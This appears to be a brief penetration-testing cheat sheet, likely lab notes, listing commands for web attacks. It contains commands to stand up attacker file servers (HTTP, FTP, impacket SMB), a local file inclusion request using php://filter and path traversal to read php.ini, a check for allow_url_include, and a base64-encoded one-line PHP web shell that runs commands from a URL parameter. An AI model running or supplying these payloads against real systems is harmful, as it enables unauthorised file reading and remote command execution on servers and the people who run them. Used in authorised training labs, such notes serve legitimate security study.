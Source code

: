 # Useful Links

HTTP Server
sudo python3 -m http.server <LISTENING_PORT>

FTP Server
sudo python3 -m pyftpdlib -p 21

SMB Server
impacket-smbserver -smb2support share $(pwd)

Checking PHP Configurations
curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include

Base64 PHP Shell
echo '<?php system($_GET["cmd"]); ?>' | base64
